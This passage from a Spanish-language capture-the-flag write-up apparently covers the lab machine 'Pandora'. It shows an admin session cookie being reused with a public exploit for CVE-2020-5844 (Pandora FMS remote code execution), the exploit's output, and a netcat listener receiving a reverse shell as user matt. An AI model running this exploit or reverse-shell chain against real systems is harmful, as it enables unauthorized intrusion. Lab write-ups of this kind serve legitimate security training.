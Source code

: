 En efecto, ya se tiene acceso al panel de administración, ahora aprovechando el contenido del primer CVE-2020-5844 que vi para un RCE, se puede jugar con la cookie session del usuario admin y lograr enviar una reverse shell a mi atacante.
Primero obteniendo la cookie.

![](pandora4.jpg)

Ahora corriendo el exploit para obtener una shell inversa.
~~~bash
python3 exploit-CVE-2020-5844.py -t 127.0.0.1 8081 -p 43kqgnulnoioshft4snonvfojc -s 10.10.14.17 4431

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2020-5844 (Pandora FMS v7.0NG.742) - Remote Code Execution
OPTIONS: Reverse Shell Mode
PHPSESS: 43kqgnulnoioshft4snonvfojc
LOCALIP: 10.10.14.17:4431
WARNING: Be sure to start a local listener on the above IP and port.
WEBSITE: http://127.0.0.1:8081/pandora_console
EXPLOIT: Connected to website! Status Code: 200
EXPLOIT: Logged into Pandora FMS!
SUCCESS: Reverse shell executed! Check your local listener on 10.10.14.17:4431
~~~
Colocando un escucha en otra shell se logra obtener una sesion como el usuario matt.
~~~bash
sudo nc -nlvp 4431
[sudo] password for kali: 
listening on [any] 4431 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.136] 34582
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
~~~

---